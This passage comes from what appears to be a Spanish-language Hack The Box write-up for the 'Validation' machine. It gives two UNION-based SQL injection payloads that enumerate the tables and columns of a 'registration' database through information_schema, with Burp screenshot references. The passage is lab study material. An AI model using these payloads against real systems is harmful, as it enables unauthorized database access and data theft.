 Para listar las tablas que contiene la base de datos registration probamos con:

- **Comando:**
  
  ' union SELECT table_name from information_schema.tables where table_schema="registration"-- -
  ```

<p align="center">
  <img src="/assets/images/htb/validation/burp9.png" alt="10" width="2200">
</p>


<p align="center">
  <img src="/assets/images/htb/validation/burp10.png" alt="11" width="2200">
</p>

Para listar las columnas de la tabla que queramos probamos con:

- **Comando:**
  ```php
  ' union SELECT column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -
  ```

<p align="center">
  <img src="/assets/images/htb/validation/burp11.png" alt="12" width="2200">
</p>


<p align="center">